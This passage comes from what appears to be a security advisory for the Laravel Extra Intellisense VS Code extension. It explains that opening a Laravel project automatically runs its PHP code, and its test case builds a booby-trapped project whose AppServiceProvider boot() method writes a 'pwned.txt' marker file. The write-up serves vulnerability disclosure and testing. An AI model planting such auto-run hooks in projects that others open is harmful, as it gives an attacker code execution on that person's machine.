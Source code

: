             });
            return out;
        }
        ```
    - `src/extension.ts` and `src/*Provider.ts`:
        - The `activate()` function in `extension.ts` registers various completion providers (e.g., `RouteProvider`, `ViewProvider`, `ConfigProvider`).
        - These providers, in their `load...()` methods (e.g., `loadRoutes()`, `loadConfigs()`, `loadViews()`), use `Helpers.runLaravel()` to execute PHP code to gather data for autocompletion. This execution happens automatically when a Laravel project is opened and periodically thereafter.

* Security Test Case:
    1. **Setup:**
        - Ensure you have VS Code installed with the "Laravel Extra Intellisense" extension.
        - Create a new directory named `malicious-laravel-project`.
        - Inside `malicious-laravel-project`, initialize a basic Laravel project (you don't need a full installation, just the basic directory structure and essential files). A simple `composer.json` and basic `bootstrap/app.php`, `vendor/autoload.php` and `artisan` file are sufficient to simulate a Laravel environment for the extension to detect.
        - Create `app/Providers/AppServiceProvider.php` with the following malicious code in the `boot()` method:
        ```php
        <?php

        namespace App\Providers;

        use Illuminate\Support\ServiceProvider;

        class AppServiceProvider extends ServiceProvider
        {
            /**
             * Register any application services.
             *
             * @return void
             */
            public function register()
            {
                //
            }

            /**
             * Bootstrap any application services.
             *
             * @return void
             */
            public function boot()
            {
                file_put_contents(base_path('pwned.txt'), 'You have been pwned by Laravel Extra Intellisense extension! Code executed: ' . date('Y-m-d H:i:s'));
            }
        }
        ```
        - Create a dummy `vendor/autoload.php` file that simply returns `null` to satisfy the extension's check:
        ```php
        <?php
        return null;
        ```
        - Create a dummy `bootstrap/app.php` file that returns a new application instance:
        ```php
        <?php
        use Illuminate\Foundation\Application;
        use Illuminate\Foundation\Configuration\Exceptions\Handler;
        use Illuminate\Foundation\Configuration\Http\Kernel;
